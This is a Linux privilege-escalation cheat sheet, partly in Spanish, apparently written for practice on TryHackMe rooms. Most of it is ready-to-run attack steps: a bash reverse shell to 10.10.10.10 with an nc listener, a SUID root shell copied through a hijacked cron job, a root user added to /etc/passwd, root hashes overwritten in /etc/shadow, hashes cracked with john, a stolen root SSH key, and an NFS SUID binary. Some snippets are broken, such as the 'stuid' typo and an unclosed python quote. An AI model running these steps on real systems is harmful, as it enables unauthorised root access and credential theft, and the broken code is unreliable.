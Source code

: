 # Privilege Escalation for Linux (Cheat-Sheet)

> ## **Sudo - Shell Escape Sequences**
>
> command `sudo -l`  
> Visit [GTFOBins](https://gtfobins.github.io/) and search for some of the program names. If the program is listed with "sudo" as a function, you can use it to elevate privileges, usually via an escape sequence.

> ## **SUID (Set-user Identification)**
>
> _command_ `find / -type f -perm -04000 -ls 2>/dev/null`  
> or  
> `find / -type f -a \( -perm -u+s -o -perm -g+s \) -exec ls -l {} \; 2> /dev/null` will list files that have SUID or SGID bits set.  
> Visit Search result: [GTFOBins](https://gtfobins.github.io/)  
> try read the `/etc/shadow` file or adding our user to `/etc/passwd`
> add a new user that has root privileges.  
> We will need the hash value of the password we want the new user to have. This can be done quickly using the openssl tool on Kali Linux: _command_ `openssl passwd -1 -salt foo` Result: _$1$pyuddMjp$3.deTnHdrVVVLoh5zkQ0B._  
> We will then add this password with a username to the `/etc/passwd` file: _hacker:$1$pyuddMjp$3.deTnHdrVVVLoh5zkQ0B.:0:0:root:/root:/bin/bash_  
> Once our user is added we will need to switch to this user and hopefully should have root privileges.  
> **With _unshadow_ and _john_:**  
>  unshadow necesita los archivos _/etc/shadow_ and _/etc/passwd_  
>  create with result _shadow.txt_ and _passwd.txt_  
>  _command_ `unshadow passwd.txt shadow.txt > passwords`  
>  `john passwords` -> default brute force or `john --wordlist=diccionario.lst --rules password`

> ## **Capabilities**
>
> _command_ `getcap -r / 2>/dev/null`  
> Search [GTFOBins](https://gtfobins.github.io/) has a good list of binaries that can be leveraged for privilege escalation if we find any set capabilities.

> ## **Cron Jobs - File Permissions**
>
> _command_ `cat /etc/crontab`  
> `locate overwrite.sh` or `locate backup.sh`  
> A similar situation where the "any.sh" script was deleted, but the cron job still exists.
> If the full path of the script is not defined, cron will refer to the paths listed under the PATH variable in the _/etc/crontab_ file. In this case, we should be able to create a script named “any.sh” under our user’s home folder and it should be run by the cron job.  
> _modify or create script_

```sh
#!/bin/bash

bash -i >& /dev/tcp/10.10.10.10/6668 0>&1
```

> We will now run a listener on our attacking machine to receive the incoming connection:  
> _command_ `nc -nlvp 6668`

> ## **Cron Jobs - PATH Enviroment Variable**
>
> _command_ `cat /etc/crontab`  
> Note that the PATH variable starts with /home/user which is our user's home directory.  
> Create a file called overwrite.sh in your home directory with the following contents:  
> _modify script_

```sh
#!/bin/bash

cp /bin/bash /tmp/rootbash
chmod +xs /tmp/rootbash
```

> Make sure that the file is executable:  
> `chmod +x /home/user/overwrite.sh`  
> Wait for the cron job to run (should not take longer than a minute). Run the /tmp/rootbash command with -p to gain a shell running with root privileges: `/tmp/rootbash -p`

> ## **Weak File Permissions - Writable /etc/passwd**
>
> `ls -l /etc/passwd`  
> Generate a new password hash with a password of your choice:  
> `openssl passwd newpasswordhere`  
> Edit the /etc/passwd file and place the generated password hash between the first and second colon (:) of the root user's row (replacing the "x").  
> Switch to the root user, using the new password.

> ## **Weak File Permissions - Writable /etc/shadow**
>
> `ls -l /etc/shadow`  
> Generate a new password hash with a password of your choice:  
> `mkpasswd -m sha-512 newpasswordhere`  
> Edit the /etc/shadow file and replace the original root user's password hash with the one you just generated.  
> Switch to the root user, using the new password.

> ## **Passwords & Keys - SSH Keys**
>
> Look for hidden files & directories in the system root:
> `ls -la /`
> hidden directory
> `ls -l /.ssh`
> Tenga en cuenta que hay un archivo de lectura mundial llamado _root_key_. Una inspección más profunda de este archivo debería indicar que es una clave SSH privada. El nombre del archivo sugiere que es para el usuario root.  
> Copie la clave en su cuadro de Kali (es más fácil simplemente ver el contenido del archivo _root_key_ y copiar/pegar la clave) y darle los permisos correctos, de lo contrario, su cliente SSH se negará a usarlo:  
> `chmod 600 root_key`  
> `ssh -i root_key root@MACHINE_IP`

> ## **NFS (Network File Sharing)**
>
> configuration is kept in the _/etc/exports_ file. This file is created during the NFS server installation and can usually be read by users.  
>  _command_ `cat /etc/exports`  
>  The critical element for this privilege escalation vector is the “no_root_squash”. By default, NFS will change the root user to nfsnobody and strip any file from operating with root privileges. If the “no_root_squash” option is present on a writable share, we can create an executable with SUID bit set and run it on the target system.  
>  We will start by enumerating mountable shares from our attacking machine: `showmount -e 10.10.10.10`  
>  We will mount one of the “no_root_squash” shares to our attacking machine and start building our executable: `mkdir /tmp/backupsonattackermachine`  
>  `mount -o rw 10.10.10.10:/fileexport /tmp/backupsonattackermachine`  
>  As we can set SUID bits, a simple executable that will run /bin/bash on the target system will do the job: `nano nfs.c`

```c
int main()
{ setgid(0);
  stuid(0);
  system("/bin/bash");
  return 0;
}
```

> Once we compile the code we will set the SUID bit: `gcc nfs.c -o nfs -w`  
>  `chmod +s nfs`  
>  `ls -l nfs`  
>  `./nfs`

> ## **Python**

```sh
python3 -c 'import pty;pty.spawn("/bin/bash")
export TERM=xterm
```

Use these Rooms free TryHackMe for practice and learn

-   [Linux PrivEsc](https://tryhackme.com/room/linuxprivesc)
-   [Linux Privilege Escalation](https://tryhackme.com/room/linprivesc)
